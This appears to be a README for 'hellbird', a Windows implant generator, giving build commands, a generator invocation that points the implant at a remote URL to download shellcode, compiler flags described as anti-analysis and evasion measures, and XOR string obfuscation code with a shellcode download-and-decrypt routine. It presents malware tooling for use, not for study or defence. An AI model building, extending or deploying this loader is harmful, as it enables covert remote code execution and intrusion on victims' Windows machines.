 
## 📦 Build Process

The `get_hellbird3.sh` script generates:
- `hellbird.c`: The main implant source code with embedded obfuscated configuration.
- `Makefile`: Cross-compilation rules using MinGW-w64.

### Build Requirements

```bash
sudo apt install mingw-w64 && sh install.sh
```
### Build
```bash
./gen_hellbird3.sh \
  --target windows \
  --url "http://192.168.1.100/shellcode.txt" \
  --process-name "C:/Windows/System32/calc.exe" \
  --key 0x33
```
> ✅ Output: hellbird.exe — a fully self-contained Windows executable.

### Compilation Flags Analysis
#### Flag	Purpose	Security Impact

- -lws2_32	Link Winsock library	Network functionality
- -s	Strip symbols	Anti-analysis
- -Os	Optimize for size	Reduced footprint
- -fno-stack-protector	Disable stack protection	Evasion technique
- -static	Static linking	Standalone executable

## 🧩 Code Architecture
1. String Obfuscation
All strings are XOR-encoded at compile time using a user-provided key (default: 0x33):

```c
unsigned char OBF_SHELLCODE_URL[] = { 0x12, 0x34, ... };
```

Decoded at runtime via:

```c
void xor_string(char* data, size_t len, char key) {
    for (int i = 0; i < len; i++) data[i] ^= key;
}
```

2. Shellcode Download & Extraction

- Parses HTTP response body.
- Extracts shellcode in \xNN\xNN... format.
- Applies XOR decryption using the same key.
- Enforces size limit: 2 MB by default.
